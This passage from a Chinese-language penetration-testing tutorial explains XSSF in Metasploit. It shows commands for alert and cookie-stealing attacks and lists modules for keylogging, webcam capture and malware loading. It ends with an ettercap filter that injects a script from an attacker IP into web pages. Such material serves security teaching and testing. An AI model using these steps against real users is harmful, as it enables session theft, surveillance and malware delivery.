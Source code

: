 ![跨站脚本框架](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/ms-kali-adv-pentest/img/3121OS_11_10.jpg)

此时最常见的 XSS 攻击是向客户端发送简短且相对无害的消息或*警报*。使用 Metasploit Framework，可以通过输入以下命令相对简单地实现：

```
msf > use auxiliary/xssf/public/misc/alert
msf auxiliary(alert) > show options

```

在审查选项后，可以从命令行快速发送警报，如下截图所示：

![跨站脚本框架](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/ms-kali-adv-pentest/img/3121OS_11_11.jpg)

受害者将看到一条消息，如下面的截图所示：

![跨站脚本框架](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/ms-kali-adv-pentest/img/3121OS_11_12.jpg)

通常，大多数测试人员和他们的客户使用这样简单的警报消息来验证跨站脚本。这证明了“漏洞”存在。

然而，简单的警报缺乏情感冲击。它们经常识别出真正的漏洞，但客户端并不会因为警报消息被认为不构成重大威胁而对漏洞做出响应和调解。幸运的是，XSSF 允许测试人员“加大赌注”，展示更复杂和危险的攻击。

XSSF 可以使用以下命令来窃取 cookie：

```
msf> use auxiliary/xssf/public/misc/cookie
msfauxillary(cookie) > show options (ensure all needed options selected)
msfauxillary(cookie) > run

```

`run`命令的执行如下截图所示：

![跨站脚本框架](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/ms-kali-adv-pentest/img/3121OS_11_13.jpg)

攻击完成后，可以通过查看 XSSF 日志页面的结果或直接使用命令来找到 cookie，如下截图所示：

![跨站脚本框架](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/ms-kali-adv-pentest/img/3121OS_11_14.jpg)

`auxiliary/xssf/public/misc`中的一些其他有用的命令包括：

+   `check_connected`：此命令检查受害者是否已打开任何社交网络站点（Gmail、Facebook 或 Twitter）

+   `csrf`：它发动跨站点请求伪造攻击

+   `keylogger`：此命令在客户端上调用键盘记录器

+   `load_applet`和`load_pdf`：这些命令在客户端上加载恶意的 Java 小程序和 PDF 文件，并调用它们来启动预先配置的恶意软件

+   `redirect`：将客户端重定向到指定的网页

+   `webcam_capture`：此命令从客户端的网络摄像头中捕获图像

这只是一个不完整的列表，但它显示了该工具的发展程度。此外，还有一些用于网络扫描和发动拒绝服务攻击的模块，以及一些用于确保攻击完成后持久性的模块。

XSSF 还可以与 ettercap 一起用于破坏内部网络。例如，ettercap 可以用于将`</head>`数据替换为指向恶意页面的链接，方法是在名为`attack`的过滤器中放置以下代码：

```
if (ip.proto == TCP && tcp.src == 80) {
  if (search(DATA.data, "</head>")) {
    replace("</head>", "</head><script src=\"http://192.168.43.130:8888/test.html\"></script> ");
  }
}
```
